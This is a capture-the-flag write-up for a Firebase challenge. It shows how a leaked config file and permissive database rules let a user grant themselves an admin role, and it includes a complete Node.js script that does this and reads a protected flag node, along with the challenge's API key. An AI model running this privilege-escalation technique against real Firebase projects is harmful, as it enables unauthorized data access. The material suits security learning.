 ```yaml
---
title: "BlueHensCTF 2024 - Firefun 3"
pubDate: "2024-11-10"
description: "CTF challenge writeup."
tags:
  - writeups
  - ctf
  - firebase
  - js
toc: true
math: true
---
```



We would start with a simple landing page that has nothing in it besides some HTML, the wappalyzer tells us that this is a Firebase application.

In that case we can try to fuzz some firebase specific things, which will lead us to the configuration file:

```
/__/firebase/init.json
```

Now we can quickly craft some enumeration of that application, HOWEVER I've tried with various tools such as:

- [firepwn](https://github.com/0xbigshaq/firepwn-tool)
- [baserunner](https://github.com/iosiro/baserunner)

But for whatever reason they did not work, so I've crafted my own code to do the enumeration in NodeJS. First I wanted to explore the storage, where I found this file `is_this_secure?.png`. Which contains a screenshot of the rules which are:

```json
{
    "rules": {
        "users": {
            "$userid": {
                ".read": "$userid === auth.uid",
                ".write": "$userid === auth.uid"
            }
        },
        "rules": {
            ".read": true,
            ".write": false
        },
        "flag": {
            ".write": false,
            ".read": "root.child('users').child(auth.uid).child('roles').child('admin').exists()"
        }
    }
}
```

We can see that we can uncover the flag node by being an admin. So let's try to set ourselves as admin and get the flag.

```js
import { initializeApp } from "firebase/app";
import { getAuth, signInWithEmailAndPassword  } from "firebase/auth";
import { getDatabase, ref as dbref, update, get } from "firebase/database";

const app = initializeApp({
  "apiKey": "AIzaSyBX_qnDyJ9pl_csJUprUywtAh9lUbVqPFU",
  "authDomain": "udctf24.firebaseapp.com",
  "databaseURL": "https://udctf24-default-rtdb.firebaseio.com",
  "messagingSenderId": "926833250426",
  "projectId": "udctf24",
  "storageBucket": "udctf24.firebasestorage.app"
});

// Initialize Database
const db = getDatabase(app);

// Authenticate and Assign Admin Role
const auth = getAuth();
signInWithEmailAndPassword(auth, "wow@gmail.com", "password")
  .then((userCredential) => {
    // User successfully signed in
    const user = userCredential.user;
    console.log("User logged in:", user.email);

    const uid = user.uid;

    const userRolesRef = dbref(db, `users/${uid}/roles`);

    update(userRolesRef, { admin: true })
      .then(() => {
        console.log("Admin role assigned to user:", uid);

        const flagRef = dbref(db, '/flag');
        get(flagRef)
          .then((snapshot) => {
            if (snapshot.exists()) {
              console.log("Flag data:", snapshot.val());
            } else {
              console.log("No data available at /flag");
            }
          })
          .catch((error) => {
            console.error("Error reading /flag data:", error);
          });
      })
      .catch((error) => {
        console.error("Error assigning admin role:", error);
      });
  })
  .catch((error) => {
    console.error("Error signing in:", error);
  });
```

Which get us the flag:

```
udctf{wh4t_4_sleuth_y0u_4r3!}
```